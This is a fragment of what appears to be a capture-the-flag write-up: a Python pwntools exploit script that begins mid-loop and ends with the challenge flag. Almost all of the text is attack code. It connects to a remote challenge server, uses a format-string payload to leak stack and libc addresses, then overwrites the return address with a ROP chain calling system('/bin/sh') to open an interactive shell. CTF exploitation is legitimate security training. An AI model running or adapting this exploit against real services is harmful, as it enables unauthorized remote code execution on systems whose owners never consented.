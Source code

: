 ```python!=
    #p = process()
    p = remote("45.153.243.57", 13337)
    a = p.recv()
    (p.recv())
    payload = b'%6$p.%7$p.%45$p'.ljust(16,b'|')
    payload += b'A'*(256-len(payload))
    payload += b'\x20\x90'
    print(payload)
    status = bruteforce(payload)
    if status == 'success': break
    else: p.close()
(p.recv())
p.sendline(b'4')
leak = []
leak = p.recvuntil(b'|').strip(b'|').decode().split('.')
print(leak)
stack_leak = int(leak[0],base=16)
main_leak = int(leak[1],base=16)
libc_leak = int(leak[2],base=16)
log.info("Leak stack: %s", hex(stack_leak))
log.info("Main leak: %s", hex(main_leak))
log.info("Libc leak: %s", hex(libc_leak))


#################################################
#gdb.attach(p,script)
rbp_stack = stack_leak - 0x130
rip_stack = stack_leak - 0x128

sys_func = libc_leak + 0x26fd0
bin_sh = libc_leak + 0x1ae908
pop_rdi = (libc_leak -0x1d90) + 0x23e5
ret = pop_rdi + 1

destination = stack_leak-0xb0
destination = hex(destination)[-4:]
log.info("Destination: %s", destination)
destination = int(destination,base=16) -16
p.sendline(b'1')
p.recv()
payload2 = str('%16c%14$hhn%{}c%15$hn'.format(destination).ljust(32,'.')).encode() + p64(rip_stack) + p64(rbp_stack)
payload2 += cyclic(56) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(sys_func)
p.send(payload2)
time.sleep(0.2)
p.recv()
p.sendline(b'2')
time.sleep(0.2)
p.recv()
p.sendline(b'4')
p.interactive()
```

:bulb: **==Flag: ASIS{text_editing_has_never_been_so_fun_d1fd2}==**
